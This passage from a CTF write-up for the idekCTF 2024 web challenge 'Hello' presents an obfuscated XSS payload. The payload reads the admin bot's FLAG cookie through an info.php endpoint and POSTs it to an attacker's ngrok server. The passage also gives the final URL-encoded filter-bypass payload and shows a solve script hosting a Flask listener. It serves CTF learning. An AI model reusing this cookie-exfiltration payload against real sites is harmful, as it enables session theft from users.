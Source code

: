 Alternatively, the same payload in one line:

```javascript
fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,97,97,97,45,49,50,51,45,52,53,54,45,55,56,57,45,49,50,51,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));
```

Once we have the bot's `FLAG` cookie, we send it back to our attacker web server with a POST request.

> Note: You can send the cookie back to the attacker web server using the GET method. However, due to the URL character limit, you'll receive an HTTP status code of "[414 URI Too Long](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/414)". To solve this, you can use JavaScript to retrieve only the `FLAG` cookie's value. I didn't use the GET method because I didn't want to deal with this issue.

Final payload:

```
http://idek-hello.chal.idek.team:1337/?name=<img%0Csrc=x%0Conerror="fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,97,97,97,45,49,50,51,45,52,53,54,45,55,56,57,45,49,50,51,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));">
```

To catch the exfiltrated `FLAG` cookie's value, I wrote a solve script to generate the payload and host a Flask web application:

<details><summary>solve.py</summary></details>

- Setup port forwarding via Ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2024/web/Hello)-[2024.08.19|18:03:25(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://0c59-{REDACTED}.ngrok-free.app -> http://localhost:80            
[...]
```

- Run the solve script:

```shell
┌[siunam♥Mercury]-(~/ctf/idekCTF-2024/web/Hello)-[2024.08.19|18:02:58(HKT)]
└> python3 solve.py -a https://0c59-{REDACTED}.ngrok-free.app
[*] Send the following payload to the admin bot:
http://idek-hello.chal.idek.team:1337/?name=<img%0Csrc=x%0Conerror="fetch(String.fromCharCode(104,116,116,112,58,47,47,105,100,101,107,45,104,101,108,108,111,46,99,104,97,108,46,105,100,101,107,46,116,101,97,109,58,49,51,51,55,47,105,110,102,111,46,112,104,112,47,46,112,104,112),{credentials:'include'}).then(response => response.text()).then(data => fetch(String.fromCharCode(104,116,116,112,115,58,47,47,48,99,53,57,45,123,82,69,68,65,67,84,69,68,125,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112),{method:'POST',body:JSON.stringify({text:data})}));">
[*] Waiting for incoming request...
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.69.96.69:80
Press CTRL+C to quit

```
